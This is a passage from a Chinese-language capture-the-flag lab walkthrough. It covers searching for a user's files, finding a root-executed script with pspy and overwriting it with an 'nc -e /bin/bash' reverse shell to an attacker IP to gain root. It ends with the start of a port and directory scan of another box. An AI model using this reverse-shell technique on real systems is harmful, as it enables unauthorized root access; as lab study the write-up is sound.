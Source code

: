 其实这也是个思路  因为用户有三个 还差一个penguin 可以全局找与penguin有关的文件

```
 find / -iname *penguin* 2>/dev/null
```

![image.png](https://s2.loli.net/2025/05/08/BeJPTNAg1mouEtS.png)

假如说这个压缩包没有这个名字就炸刚了

python传回kali 进行解压

![image.png](https://s2.loli.net/2025/05/08/D6gYheiyrQ1IlGZ.png)

找到新的提示

![image.png](https://s2.loli.net/2025/05/08/bBUxvli1oVuCNAa.png)


用给出来的密码登录成功

第三个flag

![image.png](https://s2.loli.net/2025/05/08/cUHl7sFkvoQCuiw.png)

实在是没有思路了 看了wp 说是用了pspy

![image.png](https://s2.loli.net/2025/05/08/Igq2yRTMkQd8cbZ.png)

找到这个奇怪文件

因为是以root权限执行 我们写入反弹shell 借此来执行反弹shell

```
echo 'nc -e /bin/bash 192.168.110.128 7777' > .trash_old
```
[[tips和一些工具/平时用的一些命令 更新中#^0be5ac\|平时用的一些命令 更新中#^0be5ac]]

反弹成功 获得root权限

![image.png](https://s2.loli.net/2025/05/08/ZOzlxitkXBAK7Wm.png)


![image.png](https://s2.loli.net/2025/05/08/ZlzLJ5ebBW8PVSI.png)


# sar
## nmap扫描端口和文件爆破
![image.png](https://s2.loli.net/2025/05/09/7Wicwny9StprbTf.png)

只有一个80端口 文件爆破一下

![image.png](https://s2.loli.net/2025/05/09/DKgUflmOdZTYWaR.png)

